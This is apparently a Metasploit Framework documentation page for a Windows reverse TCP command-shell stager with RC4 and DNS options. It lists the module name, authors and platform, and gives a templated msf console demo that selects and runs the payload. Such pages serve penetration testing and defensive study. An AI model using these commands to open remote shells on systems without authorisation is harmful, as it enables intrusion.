 ## Windows Command Shell, Reverse TCP Stager (RC4 Stage Encryption DNS)

Spawn a piped command shell (staged). Connect back to the 
attacker


## Module Name
payload/windows/shell/reverse_tcp_rc4_dns

## Authors
* spoonm
* sf
* hdm
* skape
* mihi
* RageLtMan





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/shell/reverse_tcp_rc4_dns
msf payload(reverse_tcp_rc4_dns) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_rc4_dns) > set TARGET <target-id>
msf payload(reverse_tcp_rc4_dns) > show options
   ... show and set options ...
msf payload(reverse_tcp_rc4_dns) > run
```
    
    